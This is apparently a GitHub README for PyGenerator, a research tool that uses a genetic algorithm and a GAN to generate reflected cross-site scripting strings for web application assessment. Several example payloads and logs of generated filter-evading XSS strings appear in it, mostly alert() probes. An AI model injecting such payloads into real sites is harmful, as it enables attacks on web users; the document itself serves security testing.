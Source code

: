 # PyGenerator
**Fully automatically generate numerous injection codes for web application assessment.**

---
PyGenerator can fully automatically generate numerous injection codes for detecting web app vulnerabilities.  
Current PyGenerator's version is beta. Therefore, it can generate only injection codes of reflected Cross Site Scripting.  

Following codes were examples of injection codes automatically generated by PyGenerator.  
```
<script>al¥u0065rt();</script></tr><th/
<iframe/onload=alert();>size=<command
<video><source onerror=javascript:alert();>kind=
<svg/<canvas/<select/onload=confirm(1);>
<object/src=x onload=alert();¥n<script type="text/javascript">
```

 ![overview](./img/pygenerator_overview.png)  

Please refer to this [blog](https://www.mbsd.jp/blog/20170921.html) for detail explanation of some of this tool.  

## Processing flow
PyGenerator consists of two algorithms that Genetic Algorithm (GA) and Generative Adversarial Networks (GAN).  
The injection codes are generated in two steps.  

 1. Generation of injection codes using GA.
 2. Augment injection codes using GAN.

#### Step.1 Generation of injection codes using GA.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv)).  
Gene list is minimum components of HTML and JavaScript.  
ex) <img/, src=, xxx, onerror=, alert();, />, etc.  

And, you execute `ga_main.py` as the following.  

```
Generator> python ga_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

Launched : chrome 60.0.3112.90
-----1 generation result-----
  Min:-2.3
  Max:-0.4
  Avg:-0.996
-----2 generation result-----
  Min:-2.2
  Max:-0.5
  Avg:-0.964
-----3 generation result-----
  Min:-1.8
  Max:-0.5
  Avg:-0.975

...snip...

-----444 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.779
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>onerror=alert(); : [149, 2, 180, 206, 196]
-----445 generation result-----
  Min:-1.8
  Max:0.1
  Avg:-0.828
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
-----446 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.826
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]

...snip...
```

In this result, a few injection codes are generated by GA.  
Injection codes are represented using combination of gene numbers (5 dimensional vector).  
ex) <149, 2, 180, 206, 164>,  

#### Step.2 Augment injection codes using GAN.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv)) and the train data generated by GA (ex. [train data](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/signature/xss_list.csv)).  

And, you execute `gan_main.py` as the following.  

```
Generator>python gan_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

(14176L, 'train samples')
('Number of batches:', 443)
epoch: 0, batch: 0, g_loss: 0.704642, d_loss: 0.711084
[ 115.  118.  103.  112.  100.] : </label></meter></track></keygen></font>
[ 124.   99.  127.  106.  101.] : </progress><font/</select></button><track 
[ 112.   91.  107.  106.   90.] : </keygen></ins><fieldset </button><ins/
[ 115.  102.  142.   78.  125.] : </label><track/type="text/x-scriptlet" <meta/<select 
[ 121.  106.  107.  111.   95.] : </output></button><fieldset <keygen/<basefont 

...snip...

epoch: 79, batch: 117, g_loss: 2.015308, d_loss: 0.561763
[   0.  182.    1.    5.   21.] : <script>onerror=\u0061lert();</script><isindex/<iframe/
[   0.  191.    1.    3.   14.] : <script>onload=alert();</script><video><source/<img/
[   0.  193.    1.    3.   12.] : <script>onmouseover=alert();</script><video><source/<option/
[   0.  181.    1.    3.   22.] : <script>onerror=javascript:alert();</script><video><source/</iframe>
[   0.  183.    2.    5.   28.] : <script>onerror=al\u0065rt();<video><source <isindex/<svg/

...snip...
```

In this result, numerous injection codes are generated by GAN.  

If you change the content of the gene list, you may be able to generate various injection codes!!  
Enjoy!!  

## Operation check environment
* Python 2.7.12 (Anaconda2)
* pandas 0.18.1
* requests 2.13.0
* selenium 3.4.3
* numpy 1.13.1
* Keras 1.1.1

## Licence

[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Contact us

Isao Takaesu  
takaesu235@gmail.com  
[https://twitter.com/bbr_bbq](https://twitter.com/bbr_bbq)
